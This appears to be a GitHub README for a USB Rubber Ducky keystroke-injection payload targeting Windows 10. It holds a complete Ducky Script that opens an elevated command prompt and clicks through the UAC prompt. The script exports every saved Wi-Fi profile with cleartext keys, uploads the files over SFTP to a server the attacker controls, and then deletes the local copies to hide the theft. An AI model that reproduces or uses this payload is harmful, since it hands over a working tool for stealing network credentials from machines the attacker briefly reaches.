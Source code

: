 ## Change the following things;
* "**SFTPpass**" : Your **Sftp password**
* "**SFTPusername**" : Your **sftp username**
* "**SFTPserver**" : Your **sftp server address**


## Succesfully tested on;
* Windows 10

## Info;
* Author : lucagrosshennig
* Duckncoder : 1.2 
* Target : Windows 10 Machines 
* my Webseite : [lucagrosshennig.club](lucagrosshennig.club) 
* my github : [github.com/lucagrosshennig](github.com/lucagrosshennig) 
* Description : Connect to sftp server and uploads WLAN passwords 

```
DELAY 500
GUI r
DELAY 300
STRING cmd 
DELAY 300
CTRL-SHIFT ENTER
DELAY 300
LEFTARROW
DELAY 100
ENTER 
DELAY 300
STRING cd C:\
ENTER
DELAY 100
STRING md l 
ENTER
DELAY 100
STRING cd l && @netsh wlan export profile key=clear >nul
ENTER
DELAY 1000
STRING sftp -oPort=22 **SFTPusername**@**SFTPserver**
ENTER
DELAY 1200
STRING **SFTPpassword**
DELAY 70
ENTER
DELAY 500
STRING cd wlan
ENTER
DELAY 50
STRING mput C:\l\*.xml
ENTER
DELAY 3000
STRING bye
ENTER
DELAY 200
STRING cd ..
ENTER 
DELAY 50
STRING del "C:\l"
ENTER
DELAY 50
STRING j
ENTER
STRING exit
ENTER
```